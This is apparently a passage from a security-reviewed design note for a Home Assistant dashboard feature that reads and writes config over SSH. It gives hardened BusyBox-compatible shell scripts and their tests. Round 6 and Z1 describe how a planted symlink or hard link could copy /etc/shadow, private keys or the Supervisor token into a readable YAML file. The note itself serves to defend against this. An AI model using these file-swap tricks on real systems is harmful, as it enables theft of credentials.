   for `ha_config_read` and for a `dry_run` keeps `size`, `sha256` and the
   risky-key list, plus `response_bytes`, but **no output tail** (the other
   tools keep the scrubbed 8 KiB tail §7 describes). The diff is rendered in
   the approval card and not persisted.

Tests: a synthetic secret value in a canned `secrets.yaml` appears in no DB
row, no audit row and no tool response; `ha_config_write` and
`ha_config_restore` on `secrets.yaml` are refused with `config_secret_refused`
and open no connection.

#### H2 — one remote script per write, not five connections

The round-1 write was five SSH calls (realpath, hash, backup, temp write,
move, check), each with its own gap; the file could change between them. A
write is now **one** fixed script, with the path, the expected hash, the
backup name and the temp name as positional arguments and the new content on
**stdin**:

```bash
# core/ha_config_ssh.py (design): WRITE_SCRIPT, one connection, `set -eu`,
# one exit code per step so the dashboard maps the failure without parsing
# stderr.
sh -c '
set -eu
path=$1; expect=$2; backup=$3; tmp=$4
root=$(realpath -e -- "$(dirname -- "$path")") || exit 10
case "$root" in /homeassistant|/homeassistant/packages) ;; *) exit 11 ;; esac
real=$(realpath -e -- "$path") || exit 12
[ "$real" = "$root/$(basename -- "$path")" ] || exit 13
[ "$(sha256sum -- "$real" | cut -d" " -f1)" = "$expect" ] || exit 14
cp -p -- "$real" "$backup" || exit 15
cat > "$tmp" || { rm -f -- "$tmp"; exit 16; }
mv -f -- "$tmp" "$real" || exit 17
ha core check 2>&1 || { cp -p -- "$backup" "$real"; exit 18; }
printf "ok %s\n" "$(sha256sum -- "$real" | cut -d" " -f1)"
' _ "$path" "$expect" "$backup" "$tmp"
```

Exit codes: 10/11 the directory is not the expected HA config tree, 12 the
file is missing, 13 a symlink or a path that escapes, 14 the hash changed,
15 backup failed, 16 write failed, 17 move failed, 18 `ha core check` failed
**and the backup was put back**. The dashboard maps them to stable error
codes (`config_path_refused`, `config_hash_changed`, `config_check_failed`, …)
and names the failing step in the message. `ha_config_restore` uses its own
single script of the same shape (validate the backup, copy it in, check, and
on a failed check put the previous content back from a second temp copy).

#### H3 — the config root may be a symlink

In current HA and add-on versions the config directory is `/homeassistant`,
and `/config` is a symlink to it (the SSH add-on maps it). Comparing
`realpath(/config/app.yaml)` with the requested `/config/app.yaml` would then
never match and every call would be refused. **Decision:** the check is
**root-relative** (as in the script above): resolve the *directory*, require
it to be `/homeassistant` or `/homeassistant/packages`, and require
`realpath(path)` to equal that directory plus the file's `basename`. That
holds whether `/config` is a symlink or a real directory. The note assumes
**HA 2024.x+ and Advanced SSH & Web Terminal 1.x**, where `/config` is a
symlink; for an older setup with a real `/config` directory the same helper
accepts `/config` as the root too (one helper, both spellings, tested against
a mocked `realpath`).

#### H4 — risky config in the approval card

Writing YAML is code execution on HA. The preflight (which already renders the
diff) also flags the keys that turn a config file into one: `shell_command`,
`command_line` (sensor/binary_sensor/switch), `python_script`,
`rest_command`, `http` (trusted proxies, auth providers), `homeassistant`
(`auth_providers`), `packages`, and any `!include*` that points outside the
config root. **The banner does not block**; the operator must see it on the
card.

**Decision on the check:** no new Python package (§2.7), so this is not
PyYAML. The file is walked by a small **structural top-level mapping scan**
(`core/ha_config_yaml.py`): comments stripped, a top-level key is the text
before the first unquoted `:` at indentation 0 (so `shell_command :` and
`"shell_command":` both match), values are never interpreted, and `!include`
tags are collected anywhere. It is not a regex over the text, and it is not a
general YAML parser either; the authoritative validity check is still
`ha core check` **after** the write, with the automatic restore. The scan runs
on the *proposed* content before it is sent, and its output is key names only.
If a reviewer later prefers a real parser, that is one dependency and one
function.

Tests: each risky key is found in its normal and quoted spelling, behind a
comment, and with extra spaces before the colon; a key-looking line inside a
block scalar is not reported (the scan tracks indentation); an
`!include ../secrets.yaml` is flagged.

#### H5 — the shared check key is invalidated before the write

F10's `ha_core_restart` trusts `meta['ha_check_config_<integration>']` for 10
minutes. A round-1 write left a previous `valid` in place, so a restart could
pass on a check that ran *before* the edit. **Decision:** the write handler
deletes `ha_check_config_<integration>` **before** it opens the connection;
only the post-write `ha core check` may write `valid` again. A timed-out or
failed check leaves the key absent, so the next restart is refused with "no
recent config check" rather than the previous `valid`.

#### H6 — timeouts and concurrency

`ha core check` routinely takes 30 s+ on a Pi. The transport timeout is 30 s
for the short calls (list, read, realpath, the check template) and **120 s for
`ha_config_check` and the check phase of a write/restore**; a timeout is a
**failure**, so a write that times out is restored (the script's
`ha core check` is the last step; a dashboard-side kill leaves the backup in
place, the restore is attempted with the short timeout, and if that also
fails the run is marked `config_check_unknown` with the backup name — never
"ok"). A per-integration **lock** (one in-flight write/restore, held for the
whole script) stops two approved writes from interleaving; a second call is
refused with `config_busy`.

#### H7 — the add-on side, the key at rest, and the open questions

* The `authorized_keys` line Eshu asks the operator to add carries
  `from="<dashboard address>"` (the same idea as F12's `ALLOWED_SSH_FROM`), so
  the key is usable only from the dashboard's address. The setup doc checks
  that the add-on's `authorized_keys` option keeps key options (a line with
  `from=` is still parsed).
* The private key lives in the integration's `secret` column, which is
  **plaintext in the SQLite file** like every other integration secret — it is
  masked in responses and scrubbed from records, but not encrypted at rest.
  The note says so; encrypting the column is a separate hardening item, not
  something F11 silently assumes.
* **Open question 1 (who creates the key):** the dashboard generates the
  keypair (`ssh-keygen -t ed25519 -N ''`), shows the public line once, and
  keeps pasting an existing key possible.
* **Open question 2 (TOFU vs an explicit pin):** an **explicit pin at setup**
  is the default — the operator compares the fingerprint with
  `ssh-keygen -lf` inside the add-on and confirms it before the integration is
  enabled. TOFU stays available only behind an explicit "trust on first use"
  checkbox; the security reviewer makes the final call, and writes require a
  pin either way (§2's pin-before-write rule).
* **Open question 3 (user):** `root` is acceptable with protection mode on,
  LAN only, and the `from=` restriction above; the setup doc suggests nothing
  else.
* **Open question 4 (backup retention):** after a **successful** write, a fixed
  template prunes all but the **last 10** backups for that file
  (`find … -maxdepth 1 -name '<basename>.eshu-*.bak' | sort`, names only);
  the agent supplies no part of it. A failed write keeps its backup (the
  evidence of the failed attempt).

#### H8 — the `list` template

The round-1 template had two bugs: the Python literal `'\('` is an invalid
escape (a `SyntaxWarning` on 3.12), and `-maxdepth` after `-o` warns and can
change the match. The template is one plain `find` per root, written as a raw
Python string:

```bash
find /homeassistant -maxdepth 1 -type f \( -name '*.yaml' -o -name '*.yml' \)
find /homeassistant/packages -type f \( -name '*.yaml' -o -name '*.yml' \) 2>/dev/null
```

#### Tools and tests, amended

`ha_config_read('secrets.yaml')` returns key names only; `ha_config_write` and
`ha_config_restore` refuse it; read and `dry_run` store no output; the write
and the restore are one script each; the check timeout is 120 s; a
per-integration lock; H4's risky-key scan; H5's invalidation. The test list
gains: a synthetic secret in no row and no response, the single-script exit
codes (10–18), the root-relative check with `/config` as a symlink, the
risky-key spellings, the meta key absent before a write, a check timeout
restoring, and `config_busy` under two concurrent calls. The setup doc gains
the `from=` line, the explicit pin and the plaintext-at-rest statement.

`bash scripts/verify.sh`: `2331 passed, 7 warnings in 428.60s (0:07:08)` (docs only).

### Round 3 — design after review round 2 (U1–U4)

The H2 single script stands; this section fixes its bounds, its arguments and
its file modes.

#### U1 — the remote side must finish first

With no pty, killing the SSH client at 120 s does not stop the remote `sh`: it
finishes `ha core check` and may restore while the dashboard starts its own
restore — two writers on one file. Three rules replace that:

* the check runs **inside** the script under a shorter remote bound:
  `timeout 100 ha core check 2>&1` (coreutils or the add-on's BusyBox
  `timeout`), so the script always restores and exits before the dashboard's
  120 s;
* the dashboard **never restores on its own** after a timeout. It reports
  `config_state_unknown` with the backup name and the old/new hashes;
* the per-integration lock **stays held** until a follow-up `sha256` read of
  the path shows which content is in place (the old hash releases it as "not
  applied"; the new hash as "applied"). Until then, writes and restores are
  refused with `config_state_unknown`, and the integration page shows the
  pending backup so the operator can resolve it by hand.

#### U2 — `list` and `write` agree on packages

`list` walks `/homeassistant/packages` recursively, but the write script
accepted only the directory itself, so `packages/net/x.yaml` was listed and
every write refused. The accepted directory is now
`/homeassistant` **or any directory under `/homeassistant/packages/`** (the
case pattern `/homeassistant/packages|/homeassistant/packages/*`), with the
same basename-equality rule: `realpath` of the requested directory must be the
requested directory, and the file's basename must not change. A directory
that only *looks* similar (`/homeassistant/packages-old`) is refused.

#### U3 — check every argument, map unknown exits

The script trusts `$backup` and `$tmp`. It now requires:

* both in the **same directory** as `$real`;
* `$backup` to match `<real>.eshu-<10 digits>.bak` and `$tmp` to match
  `<real>.eshu-tmp-<hex>`;
* neither to exist (`[ ! -e ]`), so a retry cannot overwrite a previous
  backup or a symlink planted at the temp name.

Any exit outside 10–18 — including a failed `cp` inside the restore
`|| { … }` group, which `set -e` turns into `cp`'s own status — maps to
`config_state_unknown` **with the backup name**. It is never reported as ok
and never as a clean failure. The dashboard maps only 10–18.

#### U4 — keep the file's mode and owner

`cat > "$tmp"` creates the file under the add-on's umask, so `mv` could change
the mode of the target. Before the `mv`:
`chmod --reference="$real" "$tmp"` and `chown --reference="$real" "$tmp"`
(best effort; the SSH user owns the config tree in practice). A file that was
0640 stays 0640 after a write.

#### The write script, amended (U1–U4)

```bash
sh -c '
set -eu
path=$1; expect=$2; backup=$3; tmp=$4
real=$(realpath -e -- "$path") || exit 12
dir=$(dirname -- "$real")
case "$dir" in
  /homeassistant|/homeassistant/packages|/homeassistant/packages/*) ;;
  *) exit 11 ;;
esac
[ "$(realpath -e -- "$(dirname -- "$path")")" = "$dir" ] || exit 13
[ "$(basename -- "$real")" = "$(basename -- "$path")" ] || exit 13
case "$backup" in
  "$real".eshu-[0-9][0-9][0-9][0-9][0-9][0-9][0-9][0-9][0-9][0-9].bak) ;;
  *) exit 19 ;;
esac
case "$tmp" in
  "$real".eshu-tmp-*) ;;
  *) exit 19 ;;
esac
[ "$(dirname -- "$backup")" = "$dir" ] || exit 19
[ "$(dirname -- "$tmp")" = "$dir" ] || exit 19
[ ! -e "$backup" ] || exit 19
[ ! -e "$tmp" ] || exit 19
[ "$(sha256sum -- "$real" | cut -d" " -f1)" = "$expect" ] || exit 14
cp -p -- "$real" "$backup" || exit 15
cat > "$tmp" || { rm -f -- "$tmp"; exit 16; }
chmod --reference="$real" "$tmp" || exit 16
chown --reference="$real" "$tmp" 2>/dev/null || true
mv -f -- "$tmp" "$real" || exit 17
timeout 100 ha core check 2>&1 || { cp -p -- "$backup" "$real" || exit 1; exit 18; }
printf "ok %s\n" "$(sha256sum -- "$real" | cut -d" " -f1)"
' _ "$path" "$expect" "$backup" "$tmp"
```

Exit 19 (a bad argument) and exit 1 (a failed restore) are deliberately
outside 10–18 for the reasons U3 gives. The restore script uses the same
argument checks, the same `timeout 100`, and its own second temp copy for the
"put the previous content back" step.

#### Tests, added

U1: a stub `ha core check` that sleeps past the remote bound is killed by
`timeout`, the script restores and exits before the client's 120 s; a client
timeout yields `config_state_unknown` with the backup name and does not start
a second restore; the lock refuses a write until a `sha256` read resolves it.
U2: `packages/net/x.yaml` is listed **and** writable; `packages-old/x.yaml`
and a symlinked packages dir are refused. U3: a backup/tmp outside the
directory, with the wrong name or already existing is refused; an unknown
exit maps to `config_state_unknown`. U4: a 0640 file stays 0640 and its owner
is unchanged.

`bash scripts/verify.sh`: `2331 passed, 7 warnings in 429.52s (0:07:09)` (docs only).

### Round 4 — design after the round-4 check (W1–W5)

V1 is answered by the operator's read-only run on a real **Advanced SSH &
Web Terminal** add-on (Home Assistant OS, BusyBox v1.37.0, no GNU coreutils,
`/config -> /homeassistant`). The design now uses only forms that run on that
userland, and W1–W5 are folded in. V1's first option — require GNU coreutils
— is out: the add-on does not have them.

#### W1 — arguments first, then BusyBox `realpath`

BusyBox `realpath` parses **no options at all**, not even `--`, so
`realpath -e -- "$path"` fails on every call (the round-3 script would exit
12 and F11 would never work). The order is now:

1. refuse any argument that is not absolute (`case "$path" in /*) ;; *) exit
   19 ;; esac`, the same for `$backup` and `$tmp`) **before any tool sees
   it** — that also removes the need for `--` everywhere;
2. `real=$(realpath "$path")` with no options, then `[ -f "$real" ]` (BusyBox
   `realpath` fails on a missing last component, GNU succeeds without `-e`;
   the explicit test makes both refuse);
3. `dir=$(dirname "$real")`, then `[ -d "$dir" ]`;
4. `dirname`, `basename`, `sha256sum`, `cp`, `mv` and `rm` are called with the
   bare absolute names — no `--`, so the script does not depend on which
   applets parse options.

With every argument absolute and every value `realpath`ed, `--` has nothing
left to protect against.

#### W2 — copy mode and owner with `stat -c`

BusyBox has no `chmod --reference` / `chown --reference`. The confirmed form
is used instead:

```bash
chmod "$(stat -c %a "$real")" "$tmp" || exit 16
chown "$(stat -c %u:%g "$real")" "$tmp" 2>/dev/null || true
```

(`stat -c '%a %u:%g'` on the add-on returns `644 0:0`; `chown` is best effort
because a non-root user cannot change ownership, but the add-on's user is
root.)

#### W3 — do not key anything on exit 124

BusyBox `timeout` reports a killed command as **143** (137 with `-k`), not
GNU's 124. The script already folds every failure of
`timeout 100 ha core check` into exit 18 *after restoring the backup*; that
stays the only rule. Any test stub, dashboard message or future code that
tells "timed out" from "check failed" must accept **124, 137 and 143**; the
script itself never looks at the number.

#### W4 — never start `find` at the `/config` symlink

`find /config -maxdepth 1 -type f` prints **nothing** on the add-on (BusyBox
`find` does not follow a symlinked start point); `find /config/` does. The
list template already uses `/homeassistant` and stays that way:

```bash
find /homeassistant -maxdepth 1 -type f \( -name '*.yaml' -o -name '*.yml' \)
find /homeassistant/packages -type f \( -name '*.yaml' -o -name '*.yml' \) 2>/dev/null
```

A test asserts the constant contains no `find /config ` (with the space; the
trailing-slash form is also not used) and does contain `find /homeassistant`.
The setup doc states that `/config` is a symlink to `/homeassistant` on this
add-on (confirmed 2026-11-10, BusyBox 1.37.0), and that the round-2
root-relative check is right: `realpath(dirname(/config/x.yaml))` is
`/homeassistant`.

#### W5 — CI runs the scripts under BusyBox too

The implementation adds `busybox` to the CI apt packages (the `tests` job in
`.github/workflows/ci.yml`, before `pip install`), and adds
`tests/test_f11_ha_config_ssh.py`:

* `WRITE_SCRIPT` and `RESTORE_SCRIPT` are module constants in
  `core/ha_config_ssh.py`, so the test lifts the exact text (and asserts the
  shipped constant still says `/homeassistant`);
* the test runs that text as `busybox sh -c '<script>' _ <args>` with a PATH
  that holds **only** BusyBox applet links (`realpath`, `readlink`, `stat`,
  `chmod`, `chown`, `cp`, `mv`, `rm`, `cat`, `sha256sum`, `cut`, `dirname`,
  `basename`, `timeout`, `printf`, `sh`, `sleep`) plus a stub `ha`, and again
  under the system `sh` with GNU coreutils (the timeout stub sleeps through
  the absolute `/bin/sleep`, because the BusyBox PATH holds only applets);
* `/homeassistant` cannot be created in CI, so the test substitutes a temp
  root into **its own copy** of the script text; the shipped constant is
  never modified. The timeout case substitutes `timeout 100` with a short
  bound in the copy too, so the stub `ha` can sleep past it;
* a missing `busybox` skips the BusyBox half with a clear reason locally;
  CI installs it, so CI always runs it.

Cases, both userlands: a good write (content replaced, backup holds the old
bytes, exit 0); a missing file (12); a relative path (19, and nothing is
touched); a symlinked file (13); a `0640` file staying `0640`; a stub `ha`
that sleeps past the short bound (the backup is restored, exit 18, content is
the old one). The restore script runs the same matrix plus "the backup is
copied to the second temp before the restore".

While writing this note the script was run exactly that way: `busybox sh`
with a BusyBox-only PATH on a temp root, and the good write (0, mode kept,
backup old), missing file (12), relative path (19), symlinked file (13) and
the short-bound timeout (restored, 18) all behaved as designed.

#### The write script, amended (W1–W4)

```bash
# WRITE_SCRIPT — one connection, `set -eu`, BusyBox- and GNU-compatible.
# Exit codes: 10/11 the directory is not the HA config tree, 12 missing file,
# 13 symlink/escape, 14 hash changed, 15 backup failed, 16 write failed,
# 17 move failed, 18 check failed and the backup was restored, 19 bad argument.
# 1 is a failed restore inside the || group; it must map to
# config_state_unknown (U3), never to a clean failure.
sh -c '
set -eu
path=$1; expect=$2; backup=$3; tmp=$4

# W1: every argument must be absolute before any tool sees it. BusyBox
# realpath parses no options, so it cannot be asked to treat "--" as one.
case "$path"   in /*) ;; *) exit 19 ;; esac
case "$backup" in /*) ;; *) exit 19 ;; esac
case "$tmp"    in /*) ;; *) exit 19 ;; esac

real=$(realpath "$path") || exit 12
[ -f "$real" ] || exit 12
dir=$(dirname "$real")
[ -d "$dir" ] || exit 11
# W4: /config is a symlink to /homeassistant on the add-on.
case "$dir" in
  /homeassistant|/homeassistant/packages|/homeassistant/packages/*) ;;
  *) exit 11 ;;
esac
[ "$(realpath "$(dirname "$path")")" = "$dir" ] || exit 13
[ "$(basename "$real")" = "$(basename "$path")" ] || exit 13

case "$backup" in
  "$real".eshu-[0-9][0-9][0-9][0-9][0-9][0-9][0-9][0-9][0-9][0-9].bak) ;;
  *) exit 19 ;;
esac
case "$tmp" in
  "$real".eshu-tmp-*) ;;
  *) exit 19 ;;
esac
[ "$(dirname "$backup")" = "$dir" ] || exit 19
[ "$(dirname "$tmp")" = "$dir" ] || exit 19
[ ! -e "$backup" ] || exit 19
[ ! -e "$tmp" ] || exit 19

[ "$(sha256sum "$real" | cut -d" " -f1)" = "$expect" ] || exit 14
cp -p "$real" "$backup" || exit 15
cat > "$tmp" || { rm -f "$tmp"; exit 16; }

# W2: BusyBox has no --reference; copy the mode and owner explicitly.
chmod "$(stat -c %a "$real")" "$tmp" || exit 16
chown "$(stat -c %u:%g "$real")" "$tmp" 2>/dev/null || true

mv -f "$tmp" "$real" || exit 17

# W3: BusyBox timeout reports a kill as 143 (137 with -k). Every failure of
# the check restores the backup and exits 18; nothing is keyed on 124.
timeout 100 ha core check 2>&1 || { cp -p "$backup" "$real" || exit 1; exit 18; }
printf "ok %s\n" "$(sha256sum "$real" | cut -d" " -f1)"
' _ "$path" "$expect" "$backup" "$tmp"
```

The restore script keeps the same preamble (absolute arguments, BusyBox
`realpath`, `-f`/`-d`, the accepted directory, the basename equality, the
backup/temp name checks) and then: copy the current file to `$tmp`, copy
`$backup` over `$real`, `timeout 100 ha core check`, and on failure copy
`$tmp` back (exit 1 if that also fails, exit 18 otherwise).

#### Tests, added

The W5 matrix (write and restore, `busybox sh` and GNU `sh`); W4's template
assertion (no `find /config `, `/homeassistant` present); a setup-doc
assertion that the `/config -> /homeassistant` symlink is stated. The
dashboard's own cases are unchanged.

`bash scripts/verify.sh`: `2331 passed, 7 warnings in 426.99s (0:07:06)` (docs only).

### Round 5 — W6, W7 (answered), W8, and the restore script in full

#### W6 — `[ ! -e ]` is not enough

`test -e` follows symlinks, so a symlink planted at `$backup` or `$tmp`
whose target does not exist passes `[ ! -e ]`; `cp -p "$real" "$backup"` and
`cat > "$tmp"` then follow it and write, as root, wherever it points. Anything
that can write into the HA config tree can plant one.

The write script checks **both** existence and symlink-ness, and `set -C`
(noclobber) makes the `cat` open itself refuse an existing name as a second
layer:

```bash
[ ! -e "$backup" ] && [ ! -L "$backup" ] || exit 19
[ ! -e "$tmp" ] && [ ! -L "$tmp" ] || exit 19
...
set -C
cat > "$tmp" || { set +C; rm -f "$tmp"; exit 16; }
set +C
```

The restore script's "copy the current file to `$tmp`" step gets the same
`[ ! -e ] && [ ! -L ]` check before the copy. Tests, both userlands: a
dangling symlink at the backup name and at the temp name each give exit 19
and the symlink's target is never created; the `set -C` layer is exercised by
creating the temp file between the check and the write.

#### W7 — the `ha` token comes from the fixed s6 file (answered)

The operator's non-interactive check (same shape F11 uses) confirmed:
`SUPERVISOR_TOKEN` is **unset** in an SSH command, the token lives in
`/etc/profile.d/homeassistant.sh` (not read) and in
`/run/s6/container_environment/SUPERVISOR_TOKEN` (`root:root 0644`), and
`SUPERVISOR_TOKEN=$(cat that file) ha core info` exits 0.

Both scripts load it from that **fixed path**, as a local variable that is
never exported, before anything is touched:

```bash
token_file=/run/s6/container_environment/SUPERVISOR_TOKEN
[ -r "$token_file" ] || exit 20
SUPERVISOR_TOKEN=$(cat "$token_file") || exit 20
...
# only `ha` sees it; the assignment is a command prefix, not an export
SUPERVISOR_TOKEN="$SUPERVISOR_TOKEN" timeout 100 ha core check 2>&1 \
  || { cp -p "$backup" "$real" || exit 1; exit 18; }
```

Exit 20 (the token file is missing or unreadable) happens **before** the
backup and the write, so nothing is touched; the dashboard maps it to
`config_ha_token_missing`. The path is a constant in the script, never an
argument. The token is never printed, never sent to the dashboard and never
stored in the integration-call row. Tests: a stub `ha` that fails unless
`SUPERVISOR_TOKEN` equals the content of a temp token file (path substituted
in the test's copy only); a missing token file gives 20 with the target
unchanged; the token value appears in no output, DB row or audit row.

#### W8 — F11 logs in as root

The add-on's default SSH user is `hassio` (uid 1000, passwordless sudo via
`wheel`), and `/homeassistant` is `root:root`, not writable by it, so every
write would fail at the backup (15). The setup doc tells the operator to set
the add-on's `ssh.username: root` (open question 3 already chose root with
protection mode on, LAN only and H7's `from=` restriction). The dashboard
checks it **once**, on the first `ha_config_list`: the fixed `id -u` template
must print `0`, otherwise the call is refused with `config_ssh_not_root` and a
message naming the setting, and `config_json.root_checked` is set only on
success. No `sudo -n` from the script: it is the same privilege with an extra
layer, it scrubs the environment, and it depends on the add-on's sudoers.
Test: `id -u` printing 1000 refuses the list and stores no flag; printing 0
passes and caches the flag.

#### The restore script in full

```bash
# RESTORE_SCRIPT — one connection, `set -eu`, BusyBox- and GNU-compatible.
# Exit codes: 10/11 the directory is not the HA config tree, 12 missing file,
# 13 symlink/escape, 15 copy failed, 16 restore failed, 18 check failed and the
# pre-restore content was put back, 19 bad argument, 20 token file missing.
# 1 is a failed rollback inside the || group; it maps to config_state_unknown.
sh -c '
set -eu
path=$1; backup=$2; tmp=$3

# W1: absolute arguments first; BusyBox realpath parses no options.
case "$path"   in /*) ;; *) exit 19 ;; esac
case "$backup" in /*) ;; *) exit 19 ;; esac
case "$tmp"    in /*) ;; *) exit 19 ;; esac

# W7: the token comes from the fixed s6 file, before anything is touched.
token_file=/run/s6/container_environment/SUPERVISOR_TOKEN
[ -r "$token_file" ] || exit 20
SUPERVISOR_TOKEN=$(cat "$token_file") || exit 20

real=$(realpath "$path") || exit 12
[ -f "$real" ] || exit 12
dir=$(dirname "$real")
[ -d "$dir" ] || exit 11
case "$dir" in
  /homeassistant|/homeassistant/packages|/homeassistant/packages/*) ;;
  *) exit 11 ;;
esac
[ "$(realpath "$(dirname "$path")")" = "$dir" ] || exit 13
[ "$(basename "$real")" = "$(basename "$path")" ] || exit 13

case "$backup" in
  "$real".eshu-[0-9][0-9][0-9][0-9][0-9][0-9][0-9][0-9][0-9][0-9].bak) ;;
  *) exit 19 ;;
esac
case "$tmp" in
  "$real".eshu-tmp-*) ;;
  *) exit 19 ;;
esac
[ "$(dirname "$backup")" = "$dir" ] || exit 19
[ "$(dirname "$tmp")" = "$dir" ] || exit 19

# X1: `-f` follows a symlink, so a link planted at the backup name would make
# `cp -p "$backup" "$real"` copy whatever readable file it points at.
[ -f "$backup" ] && [ ! -L "$backup" ] || exit 19

# W6: a dangling symlink passes `-e`; refuse it explicitly.
[ ! -e "$tmp" ] && [ ! -L "$tmp" ] || exit 19
cp -p "$real" "$tmp" || exit 15          # the pre-restore content
cp -p "$backup" "$real" || exit 16
# U1/W3: bounded remotely, so this script restores and exits before the
# dashboard gives up. BusyBox timeout reports 143 (137 with -k).
SUPERVISOR_TOKEN="$SUPERVISOR_TOKEN" timeout 100 ha core check 2>&1 \
  || { cp -p "$tmp" "$real" || exit 1; exit 18; }
printf "ok %s\n" "$(sha256sum "$real" | cut -d" " -f1)"
' _ "$path" "$backup" "$tmp"
```

The write script gets the same W7 preamble and the `SUPERVISOR_TOKEN=…` prefix
on its check, plus the W6 checks and `set -C`.

`bash scripts/verify.sh`: `2331 passed, 7 warnings in 427.47s (0:07:07)` (docs only).

### Round 6 — X1: a symlink at the backup name (design only)

**Design only; no code on this branch yet.** Folded into the restore script
above and into its test matrix.

* **X1 — `[ -f "$backup" ]` follows a symlink.** The restore's backup check
  is the positive one (the backup must exist), so W6's `[ ! -e ] && [ ! -L ]`
  pattern does not apply to it, and a symlink passing `-f` was accepted. A
  planted link at `<real>.eshu-<ts>.bak` would make `cp -p "$backup" "$real"`
  copy **any readable file on the add-on** — `/etc/shadow`, the add-on's own
  key, the Supervisor token file — into a `.yaml` the same agent can then read
  back with `ha_config_read`. The dashboard's `BACKUP_RE` check does not help:
  the name is valid, it is the target that is not a backup.
  The check is now
  `[ -f "$backup" ] && [ ! -L "$backup" ] || exit 19`
  (with `set -eu` the failing left operand of `&&` is not an error, and the
  `||` catches either failure). Nothing is touched before it, so exit 19
  leaves the config as it was; the restore never reaches `$tmp` or the check.

  The same argument applies to `$real`'s own path, but that is already covered:
  `realpath` plus the basename equality (exit 13) refuse a symlinked target,
  and the write script's `[ ! -e "$backup" ] && [ ! -L "$backup" ]` plus
  `set -C` cover the create side.

  **Test** (added to the round-5 matrix, both userlands): a regular file with
  recognisable synthetic content (`eshu-planted-sentinel`) is the target of a
  symlink placed at the backup name; the restore exits 19, the config file is
  byte-identical to before, and the sentinel appears nowhere in the config
  directory. A **dangling** symlink at the same name also exits 19 and its
  target path is not created. Both cases fail on the old script (which copied
  the sentinel / followed the link) and pass with the `-L` check.

`bash scripts/verify.sh`: `2331 passed, 7 warnings in 428.65s (0:07:08)` (docs only).

### Round 7 — the security conditions Z1–Z5 (and Z6–Z9)

**Design only.** Z1–Z5 are folded below; Z6–Z9 are folded as rules with their
tests; the two open questions are decided. The write and restore scripts are
restated in full at the end of this round, because Z1–Z4 and Z6–Z9 all touch
them.

#### Z1 — the read is one fixed script, and refuses links

The read was `realpath` and then `cat` as separate steps (and `sed`/`sha256sum`
for `secrets.yaml`), so anything that can write into the config tree could
swap a symlink in between. The read is not gated, and through that gap it
would return any file root can read — the Supervisor token file among them,
which skips every F10 gate.

`READ_SCRIPT`, `SECRETS_KEYS_SCRIPT` and `CHECK_SCRIPT` are now constants with
the write script's preamble, and they read `"$real"` **in the same process**:

```bash
# READ_SCRIPT — the same preamble as WRITE_SCRIPT, then the read itself.
# Exit codes: 12 missing, 13 symlink/escape, 19 bad argument, 21 hard link;
# the bytes go to stdout unchanged.
sh -c '
set -eu
PATH=/usr/bin:/bin:/usr/sbin:/sbin; export PATH
path=$1
case "$path" in /*) ;; *) exit 19 ;; esac
case "$path" in *.yaml|*.yml) ;; *) exit 19 ;; esac
[ "$(basename "$path")" != secrets.yaml ] || exit 19
real=$(realpath "$path") || exit 12
[ -f "$real" ] || exit 12
[ ! -L "$real" ] || exit 13
[ "$(stat -c %h "$real")" = 1 ] || exit 21
dir=$(dirname "$real")
case "$dir" in /homeassistant|/homeassistant/packages|/homeassistant/packages/*) ;; *) exit 11 ;; esac
[ "$(realpath "$(dirname "$path")")" = "$dir" ] || exit 13
[ "$(basename "$real")" = "$(basename "$path")" ] || exit 13
cat "$real"
' _ "$path"
```

* `SECRETS_KEYS_SCRIPT` is the same script with the last line replaced by the
  keys-only `sed`, so `secrets.yaml` still never leaves the add-on (H1).
* The dashboard hashes **the bytes it received** and reports that hash as
  `sha256`; a file swapped after the read cannot make the reported hash
  describe different bytes than the content field.
* **Hard links are refused** (`stat -c %h` > 1, exit 21): a hard link to
  `secrets.yaml` or to the token file is indistinguishable from the file by
  path checks, and `cp`/`cat` would follow it. A hard link in the config tree
  has no legitimate use.
* The `ha core check` template that `ha_config_check` runs follows the same
  rule (resolve the config root, refuse a link, then check), and so do the
  paths the write and restore scripts resolve.

Test, both userlands: a symlink and a hard link to a sentinel file are each
refused (13 and 21), the sentinel's content appears in no response, and a
normal file reads back byte-identically.

#### Z2 — `ha core check` output is redacted on the add-on

HA's config validation quotes the offending value, and `!secret` is already
resolved by then. The output goes to the agent and into the call row's 8 KiB
tail, and the dashboard cannot scrub what it does not know. So the scripts
redact **before printing**, from the values the file's `!secret` can resolve.

**Where the values come from (AB1).** HA resolves `!secret` from the edited
file's own directory **upward to the config root**, so a file in
`packages/net/` usually takes its values from `/homeassistant/secrets.yaml`.
`redact` therefore collects **every** `secrets.yaml` on that path — the file's
directory, each parent, and `/homeassistant/secrets.yaml` always — instead of
only `"$dir/secrets.yaml"`. Each candidate is checked with `-f` and `! -L`
before it is read.

**What counts as a value (AB2).** A plain `key: value` line, and the lines of
a block scalar (`key: |` or `key: >`, certificates and keys in practice),
indent stripped, each of length ≥ 4. Values shorter than 4 characters (PINs)
are **not** redacted; the setup doc states both limits — the 4-character floor
and that a block scalar is handled line by line (a value that spans several
lines is redacted only where a line matches).

```bash
# Z2/AB1/AC1/AC2: replace each literal secret value (len >= 4) that the edited
# file's !secret can resolve. Reads the check output on **stdin** and writes it
# on stdout — there is no file, and no path argument to get wrong.
# index(), never a regex: the value is data.
# This is the single definition; the WRITE_SCRIPT, RESTORE_SCRIPT and
# CHECK_SCRIPT constants inline it unchanged (the program moves to double
# quotes there because each script is the body of `sh -c '...'`, and inside
# those only the awk *fields* are escaped — `\$0`; there is no `$1`).
redact() {
  files=""
  d=$dir
  while :; do
    f="$d/secrets.yaml"
    if [ -f "$f" ] && [ ! -L "$f" ]; then files="$files
$f"; fi
    [ "$d" = /homeassistant ] && break
    d=$(dirname "$d")
  done
  [ -n "$files" ] || return 0
  LC_ALL=C awk -v files="$files" '
    function add(v) {
      sub(/^[ \t]+/, "", v); sub(/[ \t]+$/, "", v)
      gsub(/^["\047]|["\047]$/, "", v)
      if (length(v) >= 4) s[++n] = v
    }
    BEGIN {
      nf = split(files, F, "\n")
      for (fi = 1; fi <= nf; fi++) {
        f = F[fi]; if (f == "") continue
        inblock = 0
        while ((getline l < f) > 0) {
          if (l ~ /^[ \t]*[A-Za-z0-9_]+:[ \t]*[|>][-+]?[ \t]*$/) { inblock = 1; continue }
          if (inblock) {
            if (l ~ /^[ \t]+[^ \t]/) { add(l); continue }
            inblock = 0
          }
          if (match(l, /^[A-Za-z0-9_]+:[ \t]*/)) add(substr(l, RLENGTH + 1))
        }
        close(f)
      }
    }
    { for (i = 1; i <= n; i++)
        while ((p = index($0, s[i])) > 0)
